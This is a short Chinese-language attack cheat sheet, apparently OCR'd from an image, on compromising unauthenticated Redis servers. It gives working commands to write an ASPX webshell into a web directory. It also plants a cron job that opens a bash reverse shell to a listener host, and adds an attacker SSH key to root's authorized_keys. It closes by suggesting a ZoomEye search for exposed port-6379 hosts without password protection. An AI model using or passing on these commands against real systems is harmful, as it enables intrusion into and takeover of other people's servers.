 获取 webshell

当 Redis 权限不高时，并且服务器开着 Web 服务，在 Redis 有 Web 目录写权限时，可以尝试往 Web 路径写 webshell，前提是知道物理路径，精简命令如下：

config set dir E:/www/font

config set dbfilename redis2.aspx

set a "<%@ Page Language="J"%><%eval(Request.Item["c"],"unsafe");%>"

save

反弹 shell

连接 Redis 服务器

redis-cli –h

192.168.106.135 –p 6379

在 192.168.106.133 上执行

nc –vlp 7999

执行以下命令

set x "nn* * * * * bash -i >& /dev/tcp/192.168.106.133/7999 0>&1nn"

config set dir /var/spool/cron/

ubantu文件为：/var/spool/cron/crontabs/

config set dir /var/spool/cron/crontabs/

config set dbfilename root

save

免密码登录 SSH

ssh-keygen -t rsa

config set dir /root/.ssh/

config set dbfilename authorized_keys

set x "nnnssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDZA3SEwRcvoYWXRkXoxu7BlmhVQz7Dd8H9ZFV0Y0wKOok1moUzW3+rrWHRaSUqLD5+auAmVlG5n1dAyP7ZepMkZHKWU94TubLBDKF7AIS3ZdHHOkYI8y0NRp6jvtOroZ9UO5va6Px4wHTNK+rmoXWxsz1dNDjO8eFy88Qqe9j3meYU/CQHGRSw0/XlzUxA95/ICmDBgQ7E9J/tN8BWWjs5+sS3wkPFXw1liRqpOyChEoYXREfPwxWTxWm68iwkE3/22LbqtpT1RKvVsuaLOrDz1E8qH+TBdjwiPcuzfyLnlWi6fQJci7FAdF2j4r8Mh9ONT5In3nSsAQoacbUS1lul root@kali2018nnn"

save




使用漏洞搜索引擎搜索

对“port: 6379”进行搜索

https://www.zoomeye.org/searchResult?q=port:6379

除去显示“-NOAUTH Authentication required.”的结果，显示这个信息表示需要进行认证，也即需要密码才能访问。
